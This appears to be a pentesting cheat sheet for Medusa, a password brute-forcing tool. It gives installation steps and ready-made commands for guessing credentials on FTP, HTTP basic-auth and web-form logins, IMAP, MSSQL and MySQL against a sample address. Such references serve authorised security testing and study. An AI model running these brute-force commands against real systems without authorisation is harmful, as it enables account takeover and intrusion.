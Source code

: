 ### Installation

#### Debian based distributions
```
sudo apt update && apt install medusa
```

### Syntax
Here is the general syntax used by Medusa :
```
medusa -h <target_ip> -u '<user>' -P '<passwords_list>' -M <module>
```
>  Services are called modules in Medusa

### FTP
```
medusa -h 10.10.10.10 -u '<user>' -P '<passwords.txt>' -M ftp
```

### HTTP Basic Auth
```
medusa -h 10.10.10.10 -u '<user>' -P '<passwords.txt>' -M http -m AUTH:BASIC -m DIR:/login.php
```

### HTTP GET
```
medusa -h 10.10.10.10 -u '<user>' -P '<passwords.txt>' -M web-form -m FORM:'/login.php' -m DENY-SIGNAL:'Login failed!' -m FORM-DATA:"get?username=&password="
```

### HTTP POST
```
medusa -h 10.10.10.10 -u '<user>' -P '<passwords.txt>' -M web-form -m FORM:'/login.php' -m DENY-SIGNAL:'Incorrect username' -m FORM-DATA:"post?username=&password="
```

### IMAP
```
medusa -h 10.10.10.10 -u '<user>' -P '<passwords.txt>' -M imap
```

### MSSQL (SQL Server Authentication)
```
medusa -h 10.10.10.10 -u '<user>' -P '<passwords.txt>' -M mssql
```
>  Medusa (<b>version <= v2.2</b>) does not support MSSQL Windows authentication

### MySQL
```
medusa -h 10.10.10.10 -u '<user>' -P '<passwords.txt>' -M mysql
```
